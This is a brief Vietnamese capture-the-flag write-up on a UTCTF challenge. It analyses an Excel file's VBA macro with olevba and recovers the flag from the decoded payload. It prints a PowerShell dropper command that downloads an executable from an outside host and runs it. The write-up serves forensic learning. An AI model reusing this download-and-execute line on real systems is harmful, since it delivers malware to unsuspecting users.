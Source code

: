 ### Đề bài

![image](https://github.com/Eafz/demo/assets/55439965/09891fe6-ef33-45ff-858a-9b70ed29bbc9)

Để bài đại loại kiểu là mình sẽ nhận được một file excel và phân tích nó để lấy tên tệp tải xuống(flag có dạng utctf{tên tệp}). Thông thường các dạng như này thì sẽ thực hiện phân tích VBA macros trong file excel

Kiểm tra file với olevba thu được thông tin như hình dưới

![image](https://github.com/Eafz/demo/assets/55439965/a44e1d59-593d-463b-a567-342e7ff56c08)

Chúng ta có thể thấy về cơ bản là sẽ thực thi một đoạn Powershell script được đặt trong biến `f`. Với biến f được làm rối nội dung bằng phương pháp chia nhỏ và cộng các chuỗi con lại với nhau

Thực hiện xem nội dung đoạn powershell được thực thi thu được

![image](https://github.com/Eafz/demo/assets/55439965/35035ba2-13d7-4a26-b8a1-d088d3a27273)

```poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"```

File được tải xuống `banANA-Hakrz09182afd4.exe` 

![image](https://github.com/Eafz/demo/assets/55439965/b091f70f-77cf-4b6e-82ef-7f930959cf2b)

`Flag:UTCTF{banANA-Hakrz09182afd4.exe}` 

